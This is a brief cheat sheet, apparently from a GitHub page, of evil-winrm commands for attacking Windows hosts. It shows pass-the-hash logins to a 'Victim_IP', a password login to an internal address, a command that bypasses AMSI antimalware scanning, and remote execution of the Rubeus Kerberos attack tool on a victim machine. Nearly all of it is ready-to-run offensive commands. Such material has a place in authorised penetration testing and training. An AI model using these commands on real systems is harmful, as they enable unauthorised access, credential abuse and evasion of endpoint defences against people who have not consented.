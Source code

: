 evil-winrm

~~~
evil-winrm -i Victim_IP -u User -H Hash
~~~

~~~
evil-winrm -i 10.100.1.5 -u svc.account -p
~~~

Displaying Evil-WinRM Options:

~~~
menu
~~~

Bypassing AMSI in a Evil-WinRM Console:

~~~
Bypass-4MSI
~~~

Remotely running Binary from Kali Box on Victim PC:

~~~
Invoke-Binary /home/kali/Rubeus.exe
~~~

